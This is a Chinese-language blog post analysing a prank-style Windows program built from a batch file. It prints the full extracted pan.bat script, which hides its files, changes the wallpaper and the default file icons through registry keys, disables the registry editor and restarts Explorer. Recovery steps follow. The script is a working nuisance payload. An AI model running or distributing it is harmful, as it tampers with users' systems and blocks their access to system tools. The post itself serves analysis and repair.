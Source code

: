 > 语言： Windows 批处理
> 工具：Notepad (记事本), Bat_To_Exe_Converter
> 危险系数：0.5
> 截图：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/b1bacf8e091f41d1b32f2865195bb28c.png)
> 运行效果：
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/1380fb182641472ab5d81e080940989f.png)
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/972dda77e3b84dc9841f363190195ab1.png)

程序运行后，释放了几个文件，我们通过工具提取出来，发现是一个批处理文件和几个图标。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/6e27812a14f349d8a748c1a2da3e5d63.png)
显而易见，`pan.bat`是程序母体。
在Windows批处理中，`::`后面是注释内容。
```powershell
chcp 65001 >nul
:: 切换到桌面目录
cd "%userprofile%\desktop"
:: 对自解压出来的文件进行隐藏
attrib +s +h /s /d image.jpg
attrib +s +h /s /d icon.ico
attrib +s +h /s /d test.ico
:: 添加注册表，修改桌面壁纸
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "Wallpaper" /f /d "%userprofile%\desktop\image.jpg"
:: 修改桌面壁纸设置为平铺
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "WallpaperStyle" /f /d "2"
:: 修改exe文件的默认图标
reg add "HKCR\exefile\DefaultIcon" /f /d "%userprofile%\desktop\icon.ico"
:: 修改txt文件的默认图标
reg add "HKCR\txtfile\DefaultIcon" /f /t REG_EXPAND_SZ /d "%userprofile%\desktop\icon.ico"
:: 修改bat文件的默认图标
reg add "HKCR\batfile\DefaultIcon" /f /t REG_EXPAND_SZ /d "%userprofile%\desktop\test.ico"
:: 禁用注册表编辑器
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /f /v DisableRegistryTools /t REG_DWORD /d 00000001
:: 刷新文件资源管理器
taskkill /im explorer.exe /f & explorer
```
### 修复

 1. <kbd>Win</kbd>+<kbd>R</kbd> 呼出运行窗口，输入`gpedit.msc`，打开“本地组策略编辑器”。
 2. 依次打开`用户配置、管理模板、系统`，往下滑找到`阻止访问注册表编辑工具`。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/3ccd0e2b40d54a5aa5570634a89767d2.png)
 3. 双击选项，点击对话框中的 **“已禁用”** ，再点确定。
 4. 此时注册表编辑器已经可以打开，<kbd>Ctrl</kbd>+<kbd>F</kbd>搜索释放出来的文件名，把搜索出来的项目都删掉即可。
 5. 重启文件资源管理器，或者重启电脑就可以恢复正常了。
 
详细修复过程可以参考 [视频](https://www.bilibili.com/video/BV1cY4y1B7ya?spm_id_from=333.999.0.0) 。
